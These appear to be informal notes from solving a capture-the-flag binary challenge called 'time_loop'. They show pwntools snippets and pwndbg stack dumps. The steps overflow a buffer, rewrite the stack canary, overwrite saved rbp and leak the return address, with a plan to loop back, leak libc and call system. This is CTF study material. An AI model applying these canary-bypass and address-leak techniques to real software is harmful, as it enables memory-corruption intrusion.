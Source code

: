 #  of the last day, 24 hours remaining

now we get to the last day, 

oh i just realized, seems like we need to:
1. write everything backwards, including the canary
2. leak the return address (if we need to use ROP chaining to go back to `time_loop` once again) do we? yes we do, at least 2 payload
- one to leak libc function address 
- one to call system 

so...

```py
p.recvuntil(b"hours remaining\n")
p.send(b'B' * 24 + b'\x00')
p.recvuntil(b"\n")
output = p.recvuntil(b"Dawn")
```
is wrong 

we didn't need to parse the canary that much, just overwrite it in litt'e endian and then it's fine 

or since we have already parsed it, we can just do: to_bytes



### Finding the return address to main!

```
0c:0060│ rbp 0x7ffccb08c600 —▸ 0x7ffccb08c620 ◂— 1
0d:0068│+008 0x7ffccb08c608 —▸ 0x556b7fc3a373 (main+158) ◂— lea rdi, [rip + 0xd86]
```

which starts 8 more bytes after the canary
```
pwndbg> x/32xb $rbp-0x20
0x7ffccb08c5e0: 0x31    0x0a    0x42    0x42    0x42    0x42    0x42    0x42
0x7ffccb08c5e8: 0x42    0x42    0x42    0x42    0x42    0x42    0x42    0x42
0x7ffccb08c5f0: 0x42    0x42    0x42    0x42    0x42    0x42    0x42    0x42
0x7ffccb08c5f8: 0x00    0xcd    0xa3    0x45    0xa6    0xbb    0x7f    0x97
pwndbg> x/48xb $rbp-0x20
0x7ffccb08c5e0: 0x31    0x0a    0x42    0x42    0x42    0x42    0x42    0x42
0x7ffccb08c5e8: 0x42    0x42    0x42    0x42    0x42    0x42    0x42    0x42
0x7ffccb08c5f0: 0x42    0x42    0x42    0x42    0x42    0x42    0x42    0x42
0x7ffccb08c5f8: 0x00    0xcd    0xa3    0x45    0xa6    0xbb    0x7f    0x97
0x7ffccb08c600: 0x20    0xc6    0x08    0xcb    0xfc    0x7f    0x00    0x00
0x7ffccb08c608: 0x73    0xa3    0xc3    0x7f    0x6b    0x55    0x00    0x00
pwndbg> x/gx $rbp+0x8
0x7ffccb08c608: 0x0000556b7fc3a373
```

Therefore lets use 8 more bytes of C to overwrite old rbp and get to return address 
```py
p.send(b'B' * 24 + p64(canary) + b'C' * 8) 
```
this time we really need to parse it carefully and leak the function address of time_loop so that we can loop back again before the end of last day
```py
return_addr = output[40:]
return_addr = u64(return_addr)
# timeloop_address = return_addr - rip offset + timeloop offset
timeloop_address = return_addr - 0x1373 + 0x11e9
print(hex(return_addr))
print(hex(timeloop_address))
```
